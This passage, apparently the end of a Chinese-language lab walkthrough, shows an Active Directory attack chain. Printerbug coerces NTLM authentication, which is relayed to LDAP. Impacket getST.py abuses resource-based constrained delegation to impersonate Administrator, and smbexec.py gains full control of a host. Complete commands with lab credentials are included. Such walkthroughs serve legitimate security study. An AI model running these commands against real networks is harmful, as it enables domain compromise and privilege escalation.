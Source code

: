 ![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/image-20220331191056561.png)

（3）然后通过 Python 版本的 [Printerbug](https://github.com/dirkjanm/krbrelayx) 迫使 WIN2016-WEB1 主机向 Kali Linux 发起 NTLM 认证请求，相关命令如下。

```bash
python3 printerbug.py pentest.com/Marcus:Marcus\@123@172.26.10.13 172.26.10.134
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/rSHPsu8IinDGMNc.png)

此时，ntlmrelayx.py 将截获 WIN2016-WEB1 机器账户的 Net-NTLM Hash，并将其 Relay 到域控的 LDAP 服务，如图下所示。

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/r8G7sHd61cSCQWT.png)

（4）接着，通过 Impacket 套件中的 getST.py 执行基于资源的约束性委派攻击，并获取用于访问 WIN2016-WEB1 机器上 CIFS 服务的高权限票据，如图下所示。

```bash
python3 getST.py pentest.com/PENTEST\$:Passw0rd -spn CIFS/WIN2016-WEB1.pentest.com -impersonate Administrator -dc-ip 172.26.10.11

# -spn 指定创建的票据要认证到的服务 SPN  
# -impersonate 指定要通过 S4U 代表的用户  
# -dc-ip 指定域控制器的 IP 地址  
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/OULbGYMhfg1eiVy.png)

（5）最后，通过设置环境变量 `KRB5CCNAME` 来使用该票据，并通过 smbexec.py 获取 WIN2016-WEB1 机器的最高权限，相关命令如下，执行结果如下图所示。在执行以下命令之前，需要将 Kali Linux 的 /etc/resolv.conf 中 DNS 服务器改为域控制器的 IP 地址。

```bash
export KRB5CCNAME=Administrator.ccache
python3 smbexec.py -target-ip 172.26.10.13 -k WIN2016-WEB1.pentest.com -no-pass   

# -k 指定通过 Kerberos 协议执行身份验证，这将在环境变量 KRB5CCNAME 指定的 ccache 文件中获取凭据 
# -no-pass 指定不需要提供密码，与 -k 选项配合使用
```

![](https://whoamianony.oss-cn-beijing.aliyuncs.com/img/5X3UGQMcLBgNsHY.png)
## Ending......

参考文献：

> https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/1fb9caca-449f-4183-8f7a-1a5fc7e7290a
>
> https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13
>
> https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a
>
> https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
>
> https://pentestlab.blog/2022/03/21/unconstrained-delegation/

